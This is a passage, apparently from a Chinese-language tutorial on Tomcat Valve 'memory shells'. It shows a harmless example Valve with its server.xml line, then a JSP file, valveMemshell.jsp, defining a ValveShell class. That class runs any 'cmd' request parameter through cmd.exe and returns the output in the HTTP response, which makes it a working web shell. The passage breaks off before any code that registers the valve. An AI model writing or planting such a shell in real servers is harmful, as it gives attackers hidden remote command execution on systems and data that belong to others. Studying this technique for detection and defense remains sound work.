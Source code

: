 ```plain
package org.example.valve;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import java.io.IOException;

public class HelloValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println("yes");
    }
}
```

Tomcat 中的 server.xml 配置：

```plain
<Valve className="org.example.valve.HelloValve" />
```

### 7.3 Valve 内存马

valveMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/22
  Time: 23:12
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%!
    public class ValveShell extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            if(request.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", request.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    response.getWriter().write(out);
                } catch (Exception e) {}
            }
        }
    }
%>

```